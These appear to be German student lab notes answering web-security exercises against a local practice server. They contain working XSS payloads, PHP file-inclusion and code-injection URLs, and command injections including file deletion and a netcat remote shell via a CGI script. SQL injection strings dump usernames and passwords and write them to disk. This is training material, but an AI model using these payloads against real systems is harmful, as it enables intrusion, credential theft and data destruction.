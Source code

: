 ## 6.1.1.1 - 1.php
### Schreibe deinen Namen in Italic
Einfach `<i>Ertugrul</i>` in die Box eingeben!

### Namen in anderer Schriftart anzeigen
```html
<span style="color: red">Ertugrul</span>
```

### Schreibe deinen Namen in weiß
```html
<span style="color: white">Ertugrul</span>
```

### Ändere die Background Color zu blau
```html
<style>body {background-color: blue;}</style>
```

### Füge ein weiteres Feld ein
```html
Ertugrul<br><input />
```


## 6.1.1.2 - 2.php
## Versuche eine Injection
```html
myname"/><script>alert('hey')</script><span class="
```

## 6.1.1.3 - Zurück zu 1.php
### Versuche eine Weiterleitung mittels Meta Tag
```html
<meta http-equiv="refresh" content="0; URL=http://google.de/">
```

### Versuche einen IFrame einzubinden
```html
<iframe src="2.php" height="200" width="300" title="Iframe Example"></iframe>
```

## 6.1.1.4 - 4.php
### Versuche eine Injection
```html
<xmp></xmp><script>alert("Hello world");</script><xmp>
```

## 6.1.1.5 - 5.php
### Versuche einen Overlong UTF-8 Character (2 Bytes statt 1) zu injezieren
```html
http://192.168.178.93/html/4.php?name=%C0%BCscript%C0%BEalert("hi")%C0%BC/script%C0%BE
```

```ad-note
Achtung: Dies klappt mit neuen Browsern nicht!
```

## 6.1.2.1 - 1.php
### Versuche die .config.php Datei zu laden
**Warning**: include(.config): failed to open stream: No such file or directory in **/var/www/html/php/1.php** on line **23**  
  
**Warning**: include(): Failed opening '.config' for inclusion (include_path='.:/usr/share/php') in **/var/www/html/php/1.php** on line **23**

### Lade eine random php Seite
https://learningapps.org/index.php

### Lade die phpinfo.php Datei
`../phpinfo.php`

### Welche siehst du, die lokale oder den remote?
Remote, php läuft auf dem Server

### Wie könnte man hier Code injezieren? (Tipp: Mime Types)

### Was müsste man auf dem Webserver machen, um PHP Code zu injezieren?

## 6.1.2.2 - 2.php
### Wie könnte man hier Code injezieren?
`<option value="../phpinfo">../phpinfo</option>`
- Umgehen des "Schutzes", in dem Man einfach ein ".php" am Ende weglässt (Anders als bei 1.php wo man `../phpinfo.php` schreiben müsste)

## 6.1.2.3 - 3.php
### Einfach nur "phpinfo()" einzugeben würde nicht funktionieren, warum?
- Bei mir hat folgendes funktioniert:
- `http://192.168.178.93/php/3.php?maths=phpinfo%28%29`

## 6.1.2.4 - 4.php
### Wie könnte man die Anwendung angreifen?
`http://192.168.178.93/php/4.php?op_1=phpinfo&op=(&op_2=)`

## 6.1.3.1 - 1.php
### Lösche testfile1
`;rm testfile1`

### Erstelle ein simples Shell Script
`;touch myscript.sh;echo "#!/bin/bash\necho -n Hello\necho World" > script.sh`

### Gebe dem Script Ausführrechte und führe es aus
```shell
;chmod +x script.sh
;sh script.sh
```

## 6.1.3.2 - 2.cgi
### Versuche eine Datei im System zu laden
`/etc/apache2/apache2.conf`

### Versuch mal Befehle auszuführen
`| ls`

### Führ die connectme.cgi aus mit einer ip und einem Port für eine Remote Shell
Beim Remote: `nc -l -p 1299`
Beim Angreifer: `http://192.168.178.93/bash/connectme.cgi?ip=192.168.178.21&port=1299`

## 6.1.4.1 - 1.php
### Liste von allen Nutzern bekommen
```SQL
" OR 1=1-- 
```

### Alle Usernamen und Passwörter bekommen
```SQL
// Erst mal alle Tabellennamen printen
" UNION SELECT table_schema, table_name FROM information_schema.tables-- 
```

```SQL
// Alle Spalten der user Tabelle rausfinden
" UNION SELECT column_name, column_name FROM information_schema.columns WHERE table_schema='web' AND table_name = 'user'-- 
```

```SQL
// Alle Nutzernamen und Passwörter rausfinden
" UNION SELECT username, password FROM user-- 
```

### Version herausbekommen
```SQL
" UNION SELECT version(), null -- 
```

### Datenbankschema (= web)
```SQL
// Erst mal alle Tabellennamen printen
" UNION SELECT table_schema, table_name FROM information_schema.tables-- 
```

### Datei schreiben
```SQL
" UNION SELECT username, password FROM user INTO OUTFILE "/var/www/html/sql/6.1.4.1.txt"-- 
```

### 6.1.4.2 - 2.php
Weil er Prepared Statements genutzt hat